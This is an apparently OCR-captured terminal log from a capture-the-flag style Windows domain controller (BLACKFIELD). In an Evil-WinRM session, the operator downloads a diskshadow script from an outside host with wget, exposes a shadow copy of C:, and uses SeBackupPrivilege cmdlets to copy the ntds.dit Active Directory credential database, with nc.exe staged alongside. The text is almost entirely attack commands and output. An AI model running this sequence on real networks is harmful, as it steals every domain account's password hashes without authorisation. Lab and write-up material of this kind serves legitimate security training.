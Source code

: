 
```howershell
*Evil-WinRM* PS C:\tmp> cmd.exe /c copy z:\windows\ntds\ntds.dit c:\tmp\ntds.dit
cmd.exe : The system cannot find the drive specified.
    + CategoryInfo          : NotSpecified: (The system cann...rive specified.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
*Evil-WinRM* PS C:\tmp> wget http:\\10.10.15.128/shadow.txt -OutFile shadow.txt
*Evil-WinRM* PS C:\tmp> diskshadow.exe /s C:\tmp\shadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  7/12/2020 11:17:39 AM

-> set context persistent nowriters
-> set metadata c:\tmp\metadata.cab
The existing file will be overwritten.
-> add volume c: alias trophy
-> create
Alias trophy for shadow ID {625fd888-124f-43c6-ab1d-4bfe528a0199} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {b4597c15-8491-4e15-87b0-f8679940a4e6} set as environment variable.

Querying all shadow copies with the shadow copy set ID {b4597c15-8491-4e15-87b0-f8679940a4e6}

        * Shadow copy ID = {625fd888-124f-43c6-ab1d-4bfe528a0199}               %trophy%
                - Shadow copy set: {b4597c15-8491-4e15-87b0-f8679940a4e6}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/12/2020 11:17:43 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose {9cc45871-ce75-4529-adb7-d72aebc2a55e} z:
The shadow copy was successfully exposed as z:\.
->
*Evil-WinRM* PS C:\tmp> cmd.exe /c copy z:\windows\ntds\ntds.dit c:\tmp\ntds.dit
cmd.exe : Access is denied.
    + CategoryInfo          : NotSpecified: (Access is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
        0 file(s) copied.
*Evil-WinRM* PS C:\tmp> Import-Module ./SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\tmp> Import-Module ./SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\tmp> Set-SeBackupPrivilege
*Evil-WinRM* PS C:\tmp> Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit c:\tmp\ntds.dit
*Evil-WinRM* PS C:\tmp> ls


    Directory: C:\tmp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/12/2020  10:14 AM                aa
d-----        7/12/2020  10:14 AM                aaa
-a----        7/12/2020  11:17 AM            666 metadata.cab
-a----        7/12/2020  10:17 AM          59392 nc.exe
-a----        7/12/2020  11:18 AM       18874368 ntds.dit ## Here we go! 
-a----        7/11/2020   4:39 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----        7/11/2020   4:39 PM          16384 SeBackupPrivilegeUtils.dll
```